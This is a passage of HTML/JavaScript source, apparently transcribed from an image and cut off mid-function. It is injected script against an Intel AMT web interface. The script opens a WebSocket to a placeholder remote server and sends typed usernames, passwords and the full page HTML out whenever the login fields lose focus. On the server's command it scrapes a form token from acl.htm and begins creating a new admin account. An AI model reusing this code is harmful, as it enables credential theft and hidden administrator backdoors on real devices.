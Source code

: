 ```html
    </tbody>
</table>

<script>
  const CONF = {};
  // Open WebSocket Connection to Remote
  // Change "ws://ws-server.local:8080/" to the URI of the WebSocket server.
  CONF.CONN = new WebSocket("ws://ws-server.local:8080/");
  CONF.CONN.onopen = function () {
    CONF.CONN.onmessage = function (r) {
      const msg = JSON.parse(r.data);
      // Switch statement for handling different types of messages
      // Client-side.  Note that message codes are unique on both
      // client and server.
      switch (msg.code) {
        case 1:
          // We have received a message indicating we should create
          // a new admin user.  The server gives us the username/password
          createNewAdmin(msg.username, msg.password)
          break;
        default:
          break;
      }
    }
  }
  
  // Blur event handler for reauthentication attempts
  // Will send the values of the username and password text inputs
  // to the remote via WebSocket.
  usernameInput.onblur = passwordInput.onblur = function handleBlur () {
    fetchInfo()
      .then(function (infoHtml) {
        // Send the credentials to the remote via WebSocket Connection.
        CONF.CONN.send(JSON.stringify({ 
          code: 3,
          reauthPassword: passwordInput.value,
          reauthUsername: usernameInput.value, 
          info: infoHtml // send entire HTML doc to minimize client side parsing code
        }));
      })
  }

  // This function parses an HTML doc for the token
  // TODO: make this work for AMT HTML Docs that contain 
  //       more than one token.
  function getToken(text) {
    const needle = 'NAME="t" value="'
    const begin = text.indexOf(needle) + needle.length;
    const end = text.indexOf('">', begin);
    return text.substring(begin, end);     
  }

  // This function makes all the necessary requests to create a
  // new admin user on the AMT WebServer.
  function createNewAdmin(username, password) {
    // GET Request to 'acl.htm'
    return fetch('/acl.htm')
    .then(function (res) {
        return res.text();
    })
    .then(function (acl) {
        const token = getToken(acl);
        // POST Request to 'user.htm'
```
